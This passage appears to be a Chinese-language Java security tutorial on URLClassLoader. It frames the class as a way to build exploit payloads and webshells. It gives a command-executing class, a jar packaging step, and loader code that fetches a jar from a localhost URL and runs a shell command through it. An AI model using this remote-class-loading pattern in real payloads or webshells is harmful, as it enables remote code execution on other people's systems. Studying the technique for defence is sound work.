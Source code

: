 ## URLClassLoader

`URLClassLoader`继承了`ClassLoader`，`URLClassLoader`提供了加载本地和远程资源的能力，在写漏洞利用的`payload`或者`webshell`的时候我们可以使用这个特性来加载远程的 jar 文件来实现远程的类方法调用。

我们先写一个可以执行命令的 TestExp.java 文件，编译成 class 文件
```java
import java.io.IOException;

public class TestExp  {
    public static Process exp(String cmd) throws IOException {
        return Runtime.getRuntime().exec(cmd);
    }
}
```

打包成 jar 文件
```bash
jar -cvf TestExp.jar TestExp.class
```

编写 TestClassLoader 利用类
```java
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;

public class TestClassLoader{
    public static void main(String[] args){
        try{
            // 定义加载的远程jar包地址
            URL url = new URL("http://127.0.0.1/TestExp.jar");
            // 创建URLClassLoader对象，加载jar包
            URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
            // 定义执行命令
            String cmd = "ls";
            // 通过URLClassLoader加载远程jar包中的TestExp类
            Class TestExp = urlClassLoader.loadClass("TestExp");
            // 调用TestExp中的exp方法
            Process process = (Process) TestExp.getMethod("exp",String.class).invoke(null, cmd);

            // 获取命令执行输入流
            InputStream in = process.getInputStream();
            ByteArrayOutputStream out = new ByteArrayOutputStream();
            byte[] b = new byte[1024];
            int a = -1;

            //读取命令执行结果流
            while ((a = in.read(b))!= -1){
                out.write(b, 0, a);
            }
            //打印命令执行结果
            System.out.println(out.toString());
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
